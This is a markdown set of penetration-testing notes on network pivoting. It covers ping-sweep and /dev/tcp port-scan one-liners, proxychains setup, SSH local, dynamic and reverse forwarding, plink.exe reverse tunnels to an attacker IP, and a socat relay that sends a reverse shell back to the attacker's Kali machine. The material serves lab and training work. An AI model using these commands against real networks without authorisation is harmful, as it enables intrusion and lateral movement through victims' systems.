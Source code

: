 # Pivoting

---
## Basics
Pivoting is the art of using access obtained over one machine to exploit another machine deeper in the network. It is one of the most essential aspects of network penetration testing, and is one of the three main teaching points for this room.

Put simply, by using one of the techniques described in the following tasks (or others!), it becomes possible for an attacker to gain initial access to a remote network, and use it to access other machines in the network that would not otherwise be accessible:

---
## Pivoting Types 
There are two main methods encompassed in this area of pentesting:

- Tunnelling/Proxying: Creating a proxy type connection through a compromised machine in order to route all desired traffic into the targeted network. This could potentially also be tunnelled inside another protocol (e.g. SSH tunnelling), which can be useful for evading a basic Intrusion Detection System (IDS) or firewall
 - Port Forwarding: Creating a connection between a local port and a single port on a target, via a compromised host
> **As a general rule, if you have multiple possible entry-points, try to use a Linux/Unix target where possible, as these tend to be easier to pivot from. An outward facing Linux webserver is absolutely ideal**.

---

## Things to check in the beginning - 

ARP Cache - `arp -a`
hosts file
ip configs

##### Static Binaries - 
`https://github.com/andrew-d/static-binaries`

##### Bash one liner to sweep the network 192.168.1.x -
`for i in {1..255}; do (ping -c 1 192.168.1.${i} | grep "bytes from" &); done`

##### Bash one liner to scan a host - 
(Note - This is very slow so try to find alternatives)
``for i in {1..65535}; do (echo > /dev/tcp/192.168.1.1/$i) >/dev/null 2>&1 && echo $i is open; done``

---

## Proxychains & Foxyproxy

`Note: If you want to do nmap scan try to find static binary instead of scanning through proxy as it can be very very slow.`

##### Usage - 

Add `proxychains` at the start of any command you want to run.
Eg: `proxychains nc 10.10.20.10 4444`

##### Configuration -

File - `/etc/proxychains.conf` but we can use specific config files if we want, we can do this by creating a `proxychains.conf` file in the directory we want to use proxychains in.

Default Config - Add these to the config file: 
```
[ProxyList]
socks4 127.0.0.1 9050
```
Note: Comment out  `proxy_dns`  option as this will hang nmap scans.

##### Important to know - 

You can only scan TCP and nothing else so use `-Pn` option in nmap if used. 


### Foxyproxy - 

We can use this when working with web based content 

---

## SSH Tunneling / Port Forwarding


### Forward Connections - 

When you can SSH from attacker machine to the victim

Eg: To access a web server on a remote host 192.168.0.10 which can be accessed by the machine 10.10.20.12 to which we have SSH access we can use this method to open a port on localhost 4000 and access port 8080 on victim machine -

Machine with SSH access - 10.10.20.12
Victim - 192.168.0.10

`ssh -L 4000:192.168.0.10:8080 victim@10.10.20.12 -fN`

Note - Here  `f`  backgrounds the shell immediately so that we have our own terminal back and  `N`  tells SSH that it doesn't need to execute any commands -- only set up the connection.

Proxies are made using the `-D` switch, for example: `-D 1337`. This will open up port 1337 on your attacking box as a proxy to send data through into the protected network. This is useful when combined with a tool such as proxychains. An example of this command would be:  
`ssh -D 1337 user@172.16.0.5 -fN`  
This again uses the `-fN` switches to background the shell. The choice of port 1337 is completely arbitrary -- all that matters is that the port is available and correctly set up in your proxychains (or equivalent) configuration file. Having this proxy set up would allow us to route all of our traffic through into the target network.



### Reverse Connections -

To be used when you have access to a shell on a victim machine but not SSH access.

1. Create SSH Key and copy the contents of the .pub key
2. Edit the `~/.ssh/authorized_keys` and paste - `command="echo 'This account can only be used for port forwarding'",no-agent-forwarding,no-x11-forwarding,no-pty <ssh pub key contents>`
3. Restart SSH 
4. Connect back with Reverse port forward using - `ssh -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -fN`
5. Reverse proxies can be made through - `ssh -R 1337 user@172.16.0.5 -fN`  

---

## Plink.exe

This is a windows version of the putty ssh client and this is usually used by transporting the binary to target and then using it to create a reverse connection. Command - 
``cmd.exe /c echo y | .\plink.exe -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -N``

Note: Any keys generated by `ssh-keygen` will not work properly here. You will need to convert them using the `puttygen` tool, which can be installed on Kali using `sudo apt install putty-tools`. After downloading the tool, conversion can be done with:  
`puttygen KEYFILE -o OUTPUT_KEY.ppk`


---

## Socat 

We can use this tool for reverse/bind shells, creating port forwards and much more.
It will usually be necessary to download a binary for it and then upload it to the box.

##### Reverse Shell Relay - 

We will create a relay for us to send a reverse shell back to our own machine from the victim machine.

1. Start netcat listener on kali - `nc -nvlp 4444`
2. Next, on the compromised server, use the following command to start the relay:  
`./socat tcp-l:8000 tcp:kali_IP:4444 &`
_**Note:** the order of the two addresses matters here. Make sure to open the listening port first,_ then _connect back to the attacking machine._
3. Next, we can create a reverse shell to the newly opened port 8000 on the compromised server